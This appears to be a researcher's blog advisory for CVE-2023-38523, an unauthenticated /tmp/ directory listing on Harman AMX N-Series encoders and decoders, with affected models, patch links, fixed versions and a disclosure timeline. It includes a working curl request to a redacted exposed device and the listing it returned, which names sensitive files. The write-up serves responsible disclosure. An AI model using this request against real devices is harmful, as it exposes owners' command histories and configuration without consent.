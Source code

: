 ```yaml
---
title: "CVE-2023-38523"
date: 2023-07-02T13:00:00-01:00
categories:
  - blog
tags:
  - CVE
toc: True
toc_label: CVE
toc_icon: "tools"
---
```


## CVE-2023-38523



### Summary :
The web interface for multiple Harman AMX N-Series devices are vulnerable to directory listing on the /tmp/ directory, without authentication.

### Models Impacted :
N-Series N1115 Wallplate Video Encoder</br>
N-Series N1x22A Video Encoder/Decoder</br>
N-Series N1x33A Video Encoder/Decoder</br>
N-Series N1x33 Video Encoder/Decoder</br>
N-Series N2x35 Video Encoder/Decoder</br>
N-Series N2x35A Video Encoder/Decoder</br>
N-Series N2xx2 Video Encoder/Decoder</br>
N-Series N2xx2A Video Encoder/Decoder</br>
N-Series N3000 Video Encoder/Decoder</br>
N-Series N4321 Audio Transceiver</br>

### Vulnerability Details :
The /tmp/ directory can be accessed on the AMX N-Series 2000/3000 Encoders without authentication. The files included in this directory include sensitive data such as the command history and screenshot of the file being processed.

As an example, the following is redacted snippet from an encoder that is currently exposed to the Internet :
```html
$ curl http://[REDACTED]/tmp/ -i 
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 1848
Date: Fri, 07 Jun 2013 03:10:44 GMT
Server: lighttpd/1.4.28

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN" "http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en">
<head>
<title>Index of /tmp/</title>
<style type="text/css">
a, a:active {text-decoration: none; color: blue;}
a:visited {color: #48468F;}
a:hover, a:focus {text-decoration: underline; color: red;}
body {background-color: #F5F5F5;}
h2 {margin-bottom: 12px;}
table {margin-left: 12px;}
th, td { font: 90% monospace; text-align: left;}
th { font-weight: bold; padding-right: 14px; padding-bottom: 3px;}
td {padding-right: 14px;}
td.s, th.s {text-align: right;}
div.list { background-color: white; border-top: 1px solid #646464; border-bottom: 1px solid #646464; padding-top: 10px; padding-bottom: 14px;}
div.foot { font: 90% monospace; color: #787878; padding-top: 4px;}
</style>
</head>
<body>
<h2>Index of /tmp/</h2>
<div class="list">
<table summary="Directory Listing" cellpadding="0" cellspacing="0">
<thead><tr><th class="n">Name</th><th class="m">Last Modified</th><th class="s">Size</th><th class="t">Type</th></tr></thead>
<tbody>
<tr><td class="n"><a href="../">Parent Directory</a>/</td><td class="m">&nbsp;</td><td class="s">- &nbsp;</td><td class="t">Directory</td></tr>
<tr><td class="n"><a href="cmdHistory.txt">cmdHistory.txt</a></td><td class="m">2013-Mar-24 11:49:25</td><td class="s">14.4K</td><td class="t">text/plain</td></tr>
<tr><td class="n"><a href="edidDecoder.txt">edidDecoder.txt</a></td><td class="m">2013-Jan-25 05:13:57</td><td class="s">3.2K</td><td class="t">text/plain</td></tr>
<tr><td class="n"><a href="switch.xml">switch.xml</a></td><td class="m">2012-Aug-08 08:08:26</td><td class="s">13.7K</td><td class="t">application/xml</td></tr>
</tbody>
</table>
</div>
<div class="foot">lighttpd/1.4.28</div>
</body>
</html>
```

An example of a vulnerable host :
![Screenshot from 2023-07-20 11-52-55](https://github.com/notnotnotveg/notnotnotveg.github.io/assets/65092714/4a0fe4ca-0801-4fb0-9275-5319287fb792)


### Recommended Mitigations :
The following updates and hotfixes were released to help remediate the issue :
https://help.harmanpro.com/n1115-svsi-firmware</br>
https://help.harmanpro.com/n1x22a-updater</br>
https://help.harmanpro.com/n1x33a-updater</br>
https://help.harmanpro.com/n1x33-updater</br>
https://help.harmanpro.com/n2x35-updater-hotfix</br>
https://help.harmanpro.com/n2x35a-updater-hotfix</br>
https://help.harmanpro.com/n2xx2-updater-hotfix</br>
https://help.harmanpro.com/n2xx2a-updater</br>
https://help.harmanpro.com/svsi-n4321-firmware</br>
https://help.harmanpro.com/n3k-updater-hotfix</br>

### Patched Versions : 
N-Series N1115 Wallplate Video Encoder	v1.15.61</br>
N-Series N1x22A Video Encoder/Decoder	v1.15.61</br>
N-Series N1x33A Video Encoder/Decoder	v1.15.61</br>
N-Series N1x33 Video Encoder/Decoder	v1.15.61</br>
N-Series N2x35 Video Encoder/Decoder	v1.15.61</br>
N-Series N2x35A Video Encoder/Decoder	v1.15.61</br>
N-Series N2xx2 Video Encoder/Decoder	v1.15.61</br>
N-Series N2xx2A Video Encoder/Decoder	v1.15.61</br>
N-Series N3000 Video Encoder/Decoder	v2.12.105</br>
N-Series N4321 Audio Transceiver	v1.00.06</br>

### Disclosure Timeline :


| <!-- -->    | <!-- -->    |
|---|---|
| Dec 12,2022 | Two attempts made to reach out to Harman on their Product Security web form. |
| Dec 22, 2022 | Email sent to security@samsung.com. |
| Jan 8, 2023 | Email sent to 	privacy@harman.com and security@harman.com.|
| Jan 8, 2023 | Response from Privacy@harman.com to reach out to  cybersecurity@harman.com for reporting vulnerabilities. |
| Jan 8, 2023 |  Emailed cybersecurity@harman.com to confirm right channel to report the vulnerability. |
| Jan 10, 2023 | Provided Harman with a detailed report of the Vulnerability. |
| Jan 11, 2023 | Report acknowledged by Harman Cybersecurity. |
| Mar 3, 2023 | Checked in with Harman Cybersecurity. |
| Mar 6, 2023 | Harman Cybersecurity confirmed that patches have already been published and the issue can be publicly disclosed. |
| Mar 8, 2023 | CVE requested from MITRE (First Attempt). |
| Apr 27, 2023 | MITRE referred to Samsung Mobile as CNA. |
| May 12, 2023 | CVE requested from Samsung Mobile (CNA). |
| May 15, 2023 | Samsung Mobile states issue is out of scope for their CNA. |
| May 15, 2023 | CVE requested from MITRE (Second Attempt). Request was marked as Closed without a response. | 
| Jun 28, 2023 | CVE requested from MITRE (Third attempt).
| Jul 19,2023 | CVE number assigned by MITRE. | 
